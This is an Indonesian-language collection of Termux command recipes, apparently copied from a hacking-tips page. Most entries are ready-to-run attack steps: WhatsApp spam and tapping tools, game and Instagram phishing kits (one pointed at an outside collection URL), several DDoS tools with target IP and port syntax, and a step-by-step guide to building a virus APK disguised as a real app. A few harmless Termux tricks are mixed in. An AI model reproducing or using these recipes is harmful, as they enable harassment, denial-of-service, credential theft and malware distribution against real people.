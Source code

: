 | 20200915T12:26:00Z | KUMPULAN CODE TERMUX LENGKAP   , SPAM CHAT WHATSAPP ,, nggk usah nyepam gw -_*   atau hp lu gw ledakin!!#@vms $ pkg update && pkg upgrade Setelah mengupdate dan mengupgrade termux ketikan perintah berikut : $ pkg install python2 (y/n pilih y) $ pkg install php (y/n pilih y) $ pkg install git (y/n pilih y) Setalah mengikuti perintah di atas waktu-nya kita clonning tool-nya : $ git clone https://github.com/siputra12/prank.git Setelah proses cloning selesai kita move on dari perintah di atas dan ketikan perintah ini : $ cd prank $ ls $ php wa.php Kemudian masukan Nomor WhatsApp yang kalian ingin spam contoh : 085710917169 kemudian enter pada pilihan y/n pilih y .. .welcome back to me catatan:)....  #@vms          % jngan lupa subcribe pak *VEMAS DARK* -_-...  (:% %phising game% (mobile legends dan clash of clan) $apt update $apt upgrade -y $pkg install python2 -y $pkg install apache2 $pkg install php -y $pkg install git $git clone https://github.com/Senitopeng/PhisingGame $ls $cd PhisingGame $python2 phising.py *Gunain dengan bijak cuk -_-* Cara Install OSIF ( Open Source Information Facebook ) $ pkg install python2 $ git clone https://github.com/ciku370/OSIF $ cd OSIF $ pip2 install -r requirements.txt Dan cara menjalankannya menggunakan perintah : python2 osif.py    by: *Vdk* *~CARA SADAP WA~* *_SeNaNg-SeNaNg H4CK1NG MR.STAH_* $pkg update && pkg upgrade $pkg install git $pkg install curl $git clone https://github.com/AndriGanz/whatshack $cd whatshack $ls $sh whatshack.sh *~Jangan salah gunakan~* Tutorial termux Silahkan perdalami... D-tect tool Cara Install D-tect tool di android termux (command ) : $ apt install git $ apt install python2 $ git clone https://github.com/shawarkhanethicalhacker/D-TECT $ ls $ cd D-TECH $ chmod +x d-tect.py $ python2 d-tect.py 2. cara uninstall tool termux rm -rf toolsnya 3. cara buat virus cd /sdcard cd vbug ls chmod vbug.py chmod -v vbug.py python2 vbug.py 4. irssi   /connet irc.freenode.net /nick w3wandroid /join #modol _________________________ DDOS via Termux ———————————— 1. Hammer $ pkg update (tekan enter) $ pkg upgrade (tekan enter) $ pkg install python (tekan enter) $ pkg install git (tekan enter) $ git clone https://github.com/cyweb/hammer (tekan enter) $ cd hammer (tekan enter) $ python hammer.py (tekan enter) $ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)   104.27.146.125 2. Xerxes $ apt install git $ apt install clang $ git clone https://github.com/zanyarjamal/xerxes $ ls $ cd xerxes $ ls $ clang xerxes.c -o xerxes $ ls $ ./xerxes (nama website) 80 3. Torshammer $ pkg update $ pkg install git $ apt install tor $ pkg install python2 $ git clone https://github.com/dotfighter/torshammer.git $ ls $ cd torshammer $ python2 torshammer.py 4. liteDDOS $ apt update $ apt upgrade $ pkg install git $ pkg install python2 $ git clone https://github.com/4L13199/LITEDDOS $ cd LITEDDOS $ python2 liteDDOS.py _________________________________________ Bermain moon-buggy $ pkg install moon-buggy $ moon-buggy ________________________________________ Musikan di termux $ pkg install mpv $ mpv/sdcard/lagu.mp3 /sdcard/ bisa di ganti sesuai letak musik ________________________________________ Browsing di termux $ pkg install w3m $ w3m www.google.com Linknya bsa diubah ________________________________________ Telephone di termux $ pkg install termux-api $ termux-telephony-call nomornya _______________________________________ Menampilkan animasi kereta  $ pkg install sl $ sl _______________________________________ menampilkan ikon dan informasi sistem android $ pkg install neofetch $ neofetch _______________________________________ menampilkan teks dalam format ASCII $ pkg install figlet $ figlet masukin teksnya _______________________________________ Cara Mendengarkan Yotuube di termux $ pip install mps_youtube $ pip install youtube_dl $ apt install mpv $ mpsyt $ /judul lagu Tinggal pilih lagu dgn mengetik nomornya.                    Tutorial membuat virus seperti aplikasi aslinya Tools yang dibutuhkan: APK Editor & tool vbug APK Editor bisa didownload di playstore Tool vbug Here 1. Download tool vbugnya dulu 2. Taruh file tool vbug di luar folder pada memori internal 3. Buka termux lalu $ cd /sdcard 4. $ unzip vbug.zip 5. $ cd vbug 6. $ python2 vbug.py 7. Enter 8. Ketik 10 9. Ketik E 10. Aplikasi virusnya sudah jadi Setelah aplikasinya jad kita tinggal edit supaya mirip aslinya 1. Buka APK Editor 2. Klik Select an Apk File 3. Pilih aplikasi virus tadi 4. Klik full edit 5. Pada bagian kolom app_name tulis nama aplikasi yang kalian inginkan 6. Lalu klik files 7. Klik res/drawable 8. Logo yang kedua itu ganti dengan logo aplikasi yang kalian inginkan Catatan: format logo harus .png 9. Ceklist logo yang kedua lalu replace 10. Pilih file logo yang mau dijadikan logo aplikasi agan 11. Back sampai home Supaya aplikasi terlihat lebih nyata kita harus beri bobot pada aplikasi buatan kita 12. Klik tanda plus yang ada di bawah kiri, pilih file, lagu, gambar atau apapun yang coxok sebagai bobot apliaksi agan 13. Klik build 14. Tunggu hingga selesai 15. Jadi deh ———————— Auto boot fb git clone https://github.com/Senitopeng/BotFbBangDjon.git cd BotFbBangDjon python2 bangdjon.py melihat id fb https://findmyfbid.in/ Autoreaction Facebook git clone https://github.com/tomiashari/fb-autoreaction.git cd fb-autoreaction python2 fb-autoreaction •TOOLS²TERMUX.P3 21.TOOLS SQLMAP apt update apt install python apt install python2 apt install git git clone https://github.com/sqlmapproject/sqlmap cd sqlmap python2 sqlmap.py ============================= 22.TUTORIAL PHISING INSTAGRAM VIA TERMUX pkg update pkg upgrade pkg install python2 pkg install git clear git clone https://github.com/evait-secutiry/weeman.git cd ls cd weeman python2 weeman.py show set url http://dewopanel.host22.com/masuk.php set port 8080 set action_url http://dewopanel.host22.com/masuk.php run =============================